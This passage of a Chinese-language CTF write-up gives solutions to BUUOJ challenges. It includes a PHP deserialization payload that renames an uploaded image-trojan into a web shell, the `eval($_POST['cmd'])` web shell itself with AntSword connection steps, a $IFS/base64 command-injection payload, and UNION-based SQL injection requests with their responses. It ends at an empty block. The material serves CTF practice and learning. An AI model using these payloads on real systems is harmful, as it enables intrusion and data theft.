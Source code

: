 ```php
{
    public $checker;
    public $registed = 0;
}
$profile = new Profile();
$register = new Register();
$register->checker = $profile;
echo base64_encode(serialize($register));
?>
```

```sh
$ sudo apt install php7.4-cli

$ php upload.php
TzoyNzoiYXBwXHdlYlxjb250cm9sbGVyXFJlZ2lzdGVyIjoyOntzOjc6ImNoZWNrZXIiO086MjY6ImFwcFx3ZWJcY29udHJvbGxlclxQcm9maWxlIjo1OntzOjc6ImNoZWNrZXIiO2k6MDtzOjEyOiJmaWxlbmFtZV90bXAiO3M6Nzg6Ii4vdXBsb2FkL2UwY2Q3YzI4Yjc0MzI3YjNiZDE0NzIzNzhiZGZiZmEyLzJmZmZiNTg4ZTczMTBjYjY1YzA5ZmQyZTIxYTBlODM0LnBuZyI7czo4OiJmaWxlbmFtZSI7czo1MToiLi91cGxvYWQvZTBjZDdjMjhiNzQzMjdiM2JkMTQ3MjM3OGJkZmJmYTIvc2hlbGwucGhwIjtzOjM6ImV4dCI7aToxO3M6NjoiZXhjZXB0IjthOjE6e3M6NToiaW5kZXgiO3M6MTA6InVwbG9hZF9pbWciO319czo4OiJyZWdpc3RlZCI7aTowO30=
```

刷新页面并把上面的payload放到cookie中多试几次，即可以看到upload/下原上传的图像被重命名了POC中的`filename` 

使用AntSword连接重命名后的文件`http://xxx.php`，密码是前面图片马中`<?php @eval($_POST['cmd']);?>`的变量名`cmd`，连接成功。

在根目录下找到/flag

## Bash/Cmd
### [命令注入](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)
```sh 
>>> base64.b64encode(b'flag.php').decode()
'ZmxhZy5waHA='

$ cat$IFS$9`echo$IFS$9ZmxhZy5waHA=|base64$IFS$9-d`
```
### [SQL注入](https://buuoj.cn/challenges#BUU%20SQL%20COURSE%201)
使用BurpSuite抓包Repeater空格需要转义%0a -> space

数据库
```sh
GET /backend/content_detail.php?id=-1%0aunion%0aselect%0a1,group_concat(schema_name)%0afrom%0ainformation_schema.schemata;# HTTP/1.1

{"title":"1","content":"information_schema,performance_schema,test,mysql,ctftraining,news"}
```
数据表
```sh
GET /backend/content_detail.php?id=-1%0aunion%0aselect%0a1,group_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='ctftraining';# HTTP/1.1

{"title":"1","content":"FLAG_TABLE,news,users"}
```
字段
```sh
GET /backend/content_detail.php?id=-1%0aunion%0aselect%0a1,group_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='ctftraining'%0aand%0atable_name='FLAG_TABLE';# HTTP/1.1

{"title":"1","content":"FLAG_COLUMN"}
```
值
```sh
```